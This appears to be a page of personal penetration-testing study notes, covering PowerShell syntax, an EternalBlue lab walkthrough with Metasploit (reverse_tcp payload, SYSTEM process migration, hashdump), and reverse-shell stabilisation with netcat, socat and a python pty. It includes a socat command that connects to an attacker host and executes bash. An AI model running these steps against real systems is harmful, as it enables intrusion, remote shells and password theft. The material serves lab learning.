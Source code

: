 `?` is an alias, by checking `Get-Alias ?` you can find it points to `Where-Object`.
`$_` points to the currently piped object.
`{0:N2} -f Value` is a pretty-printing for variable.

Windows Post-Exploitation can be done with tools like PowerSploit. Interestingly, it is not supported anymore, but everybody recomends it.

### Eternal Blue Example Room

Steps for breaching the machine.

- Scan with nmap, enable scanning for known vulnerabilities `sudo nmap -vv --script vuln -sV host`
- Open msfconsole, search for exploitations of found vulnerabilities `search ms17_010`
- Optionally, set a payload for the target machine `set payload windows/x64/shell/reverse_tcp`
- Upgrade to a meterpreter session `sessions -u session_id`
- Migrate to a new process with `NT AUTHORITY\SYSTEM` user(if needed). Combine `getpid`, `ps` and `migrate new_pid` for that.
- Dump passwords with `hashdump`.

# Shell Stabilisation

- Reverse shell - target connects to attacker
- Bind shell - attacker connects to target

**Stabilisation Examples**

- `rlwrap nc -lvnp <port>` - no Ctrl+C, but gives history, tab completion and arrow keys.
- socat. socat seldom installed and you might want a compiled binary for the target. Does not make sense on Windows.
	- Simple Listener: `socat TCP-L:<port> FILE:`tty`,raw,echo=0`. Does not need socat to be installed on target system.
	- Upgrade regular shell by executing: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`.
		- pty, allocates a pseudoterminal on the target -- part of the stabilisation process
	    - stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
	    - sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
	    - setsid, creates the process in a new session sane, stabilises the terminal, attempting to "normalise" it.
- python shell
```bash
	# In reverse shell
	$ python -c 'import pty; pty.spawn("/bin/bash")'
	Ctrl-Z

	# On host
	$ stty raw -echo
	$ fg

	# In reverse shell
	$ reset
	$ export SHELL=bash
	$ export TERM=xterm-256color # or export TERM=xterm if previous does not work
	$ stty rows <num> columns <cols>
```
